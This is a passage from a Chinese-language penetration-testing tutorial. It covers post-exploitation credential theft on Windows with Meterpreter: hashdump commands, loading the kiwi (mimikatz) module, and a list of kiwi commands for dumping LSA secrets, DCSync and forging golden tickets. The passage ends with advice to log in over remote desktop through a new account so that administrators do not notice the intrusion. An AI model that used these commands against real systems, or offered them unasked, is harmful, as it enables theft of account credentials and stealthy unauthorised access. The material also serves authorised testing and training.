 ### 获取账号密码

```shell
hashdump    # 获取密码哈希值
run windows/gather/smart_hashdump  #导出密码哈希值
```

![image-20211215131110401](https://gitee.com/xxb667/img/raw/master/img/image-20211215131110401.png)



### 加载 kiwi模块

mimikatz模块已经合并为kiwi模块

```
输入help查看具体用法
meterpreter > load kiwi
creds_all
```

![image-20211215131234291](https://gitee.com/xxb667/img/raw/master/img/image-20211215131234291.png)



![image-20211215131411041](https://gitee.com/xxb667/img/raw/master/img/image-20211215131411041.png)

#### 用法：

```
load kiwi

creds_all：列举所有凭据
creds_kerberos：列举所有kerberos凭据
creds_msv：列举所有msv凭据
creds_ssp：列举所有ssp凭据
creds_tspkg：列举所有tspkg凭据
creds_wdigest：列举所有wdigest凭据
dcsync：通过DCSync检索用户帐户信息
dcsync_ntlm：通过DCSync检索用户帐户NTLM散列、SID和RID
golden_ticket_create：创建黄金票据
kerberos_ticket_list：列举kerberos票据
kerberos_ticket_purge：清除kerberos票据
kerberos_ticket_use：使用kerberos票据
kiwi_cmd：执行mimikatz的命令，后面接mimikatz.exe的命令
lsa_dump_sam：dump出lsa的SAM
lsa_dump_secrets：dump出lsa的密文
password_change：修改密码
wifi_list：列出当前用户的wifi配置文件
wifi_list_shared：列出共享wifi配置文件/编码
```

### **远程桌面登录**

这里我们已经获得了`administrator`的账号和密码，现在我们既可以使用administrator账号登录，也可以新建账号登录(不建议直接用administrator身份登录，因为这样动静比较大，直接把管理员给挤掉，导致被发现)
